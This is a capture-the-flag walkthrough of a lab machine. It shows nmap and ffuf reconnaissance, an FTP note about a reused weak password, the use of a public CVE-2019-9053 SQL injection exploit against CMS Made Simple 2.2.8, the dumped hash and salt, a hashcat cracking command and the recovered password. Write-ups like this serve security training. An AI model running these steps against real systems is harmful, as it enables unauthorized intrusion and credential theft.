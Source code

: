 ### Nmap


```
─(root💀kali)-[~]
└─# nmap -sT -sV 10.10.166.158
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 20:09 IST
Nmap scan report for 10.10.166.158
Host is up (0.14s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP

```
tp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pu
```


Found a file called Formitch.txt

Contents:

```
──(root💀kali)-[~]
└─# cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```


### HTTP

since http port is open and apache2 service is running i'll try to  find a web directory using ffuf


```
─(root💀kali)-[~]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.166.158/FUZZ 
```


Found a directory  - /simple

`http://10.10.166.158/simple`


Found this on the direcorty:

Copyright 2004 - 2023 - CMS Made Simple  
This site is powered by [CMS Made Simple](http://www.cmsmadesimple.org) version 2.2.8

Used below resource for exploitation of the vulnerability

https://github.com/pedrojosenavasperez/CVE-2019-9053-Python3


Get the below result after running the exploit on the target machine

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d966

```

I should have been able to crack the password using below command

```
sudo hashcat -m 10 -a 0  hash.txt /usr/share/wordlists/rockyou.txt

```

But iwas getting some errors so i got it from the writeup

`password - secret`

And after logging into SSH remiaining flags and questions were quite easy